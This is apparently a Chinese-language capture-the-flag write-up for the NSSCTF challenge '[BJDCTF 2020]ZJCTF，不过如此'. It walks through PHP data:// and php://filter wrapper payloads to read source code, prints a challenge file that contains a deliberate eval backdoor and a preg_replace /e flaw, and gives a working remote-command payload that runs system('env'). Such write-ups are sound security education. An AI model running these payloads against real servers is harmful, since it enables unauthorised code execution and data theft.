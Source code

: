 ```yaml
---
date: 2024-05-26
categories: 
    - BJDCTF
tag:
    - RCE
    - PHP
    - php伪协议 
    - 正则
---
```


# 每日一题 —— [BJDCTF 2020]ZJCTF，不过如此

> 题目地址： <https://www.nssctf.cn/problem/717>   

<!-- more -->

## index.php

第一步是白盒，观察代码，发现我们要传入两个参数，一个是 `text`，一个是 `file`。为了让我们能够成功包含 `next.php`， 我们需要满足函数 `file_get_contents` 可以从 `text` 参数中作为文件读取数据。我们使用 `data` 伪协议传入数据：


```
?text=data://text/plain,I%20have%20a%20dream
```

然后，我们通过同样的方法将 `next.php` 给包含进来。为了防止该 php 文件被解析，我们使用同样的方法包含这个文件，那么在该 `index.php` 文件下，最终 payload 为：

```
?text=data://text/plain,I%20have%20a%20dream&file=php://filter/convert.base64-encode/resource=next.php
```

将得到的 base64 数据丢进 CyberChef 中得到 `next.php` 的源代码：

```php
<?php
$id = $_GET['id'];
$_SESSION['id'] = $id;

function complex($re, $str) {
    return preg_replace(
        '/(' . $re . ')/ei',
        'strtolower("\\1")',
        $str
    );
}


foreach($_GET as $re => $str) {
    echo complex($re, $str). "\n";
}

function getFlag(){
	@eval($_GET['cmd']);
}
```

## next.php

现在转到 `next.php` 文件，一片空白需要我们传参。注意到有一个 `getFlag()` 方法调用了一句话木马，但是主程序并没有入口调用它。观察到主程序调用了 `complex` 函数，而 `complex` 函数调用了 `preg_replace` 函数。注意到其中的正则表达式中有一个 `e` 修饰符，经过搜索，发现它是 php 已废弃的修饰符，会调用 `eval` 方法并执行第二个参数 —— `replacement` 的内容。因此从此入手。

解析 `preg_replace` 函数，发现它扫描每一个 GET 的键值对，将 key 作为扫描的字符串，包裹上小括号并传递给第二个参数。此步骤是正则表达式的反向引用。而 `\\1` 就代表读取此前扫描字符串中第一个小括号包裹的内容。总结就是：对于传入的每一个键值对，此函数会操作该 `value` ，将 `key` 作为扫描字符串并替换为 `strtolower(key)` 。此函数会执行 `key` 参数，并认为 `key` 为一个普通的字符串。

观察到 `\\1` 周围包裹的为双引号，此引号内会解析变量，并且变量内部可以执行一个函数命令。那么构造该键值对： `\S*=${getFlag()}` 其中，`\S*` 代表所有字符组成的字符串，可以包括 `value` 中的所有信息。而 `${getFlag()}` 则会在解析变量的时候运行危险后门函数。因此同时我们就可以通过 `cmd` 参数实现 RCE。

最终 payload：

```
next.php?\S*=${getFlag()}&cmd=system('env');
```

在输出中发现环境变量有 `FLAG` 变量。

---
ps: 不知道为什么，无论是 `\S*` 参数还是 `cmd` 参数，都无法直接运行 `phpinfo()` 函数，只要运行就会爆“连接已重置”的问题。不知道这个是服务器问题还是我的问题，毕竟别的函数都是可以使用的。